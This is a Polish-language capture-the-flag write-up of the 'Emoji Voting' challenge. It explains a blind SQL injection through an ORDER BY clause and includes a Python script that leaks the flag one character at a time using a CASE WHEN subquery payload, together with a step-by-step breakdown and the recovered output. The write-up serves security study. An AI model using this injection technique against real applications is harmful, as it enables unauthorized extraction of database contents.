 ```yaml
---
Źródło: https://www.youtube.com/watch?v=WmCioU9F2_8 (John Hammond)
Challenge: Emoji Voting
---
```


# Wygląd platformy

![platforma](./platform.png)

# Wektor ataku
```python
let query = `SELECT * FROM emojis ORDER BY ${ order }`;
```


# Fragment exploita

```python
...

# znalezione wcześniej
table_name = "flag_82f881e798"

leaked_data = list("CHTB{")

# &, %, $   to znaki specjalne dla SQL    
bruteforce_alphabet = string.printable.replace("&", "").replace("%", "").replace("$", "")

while True:
    for character in bruteforce_alphabet:
        # SQL jako początkowy indeks bierze 1
        position = len(leaked_data) + 1

        # wyślij requesta z payloadem i odbierz odpowiedź
        r = requests.post(
            url + "api/list",
            data ={
                "order": f"(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC "
            }
        )

        # przetwórz odpowiedź jako JSON
        j = r.json()

        # jeśli trafiłeś na dobry znak to szukaj kolejnego
        if j[0] == {'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}:
            leaked_data.append(character)
            break

        print(f"proba {''.join(leaked_data) + character}")

...
```

# 1.
```sql
(SELECT SUBSTR(flag,{position},1) FROM {table_name})
```
> wybierz jeden znak z pola **flag** na pozycji **position** z tabeli **flag_82f881e798**

# 2.
```sql
CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END
CASE WHEN (...)='{character}' THEN count ELSE id END
```
> jeśli znak się zgadza sortuj według **count**, jeśli nie to według **id**

# 3.
```sql
(CASE WHEN (SELECT SUBSTR(flag,{position},1) FROM {table_name})='{character}' THEN count ELSE id END) ASC
(...) ASC  
```
> sortuj **rosnąco (ascending)** po wybranej kolumnie

## Przypadek count (znak pasuje)

```sql
let query = `SELECT * FROM emojis ORDER BY count ASC`;
```

`{'id': 3, 'emoji': '👾', 'name': 'alien monster', 'count': 0}`

## Przypadek id (znak NIE pasuje)

```sql
let query = `SELECT * FROM emojis ORDER BY id ASC`;
```

`{'id': 1, 'emoji': '👽', 'name': 'alien', 'count': 13}`

# Wynik
```
...
Hit: CHTB{order_me_this_juicy_
Hit: CHTB{order_me_this_juicy_i
Hit: CHTB{order_me_this_juicy_in
Hit: CHTB{order_me_this_juicy_inf
Hit: CHTB{order_me_this_juicy_info
Hit: CHTB{order_me_this_juicy_info}
```


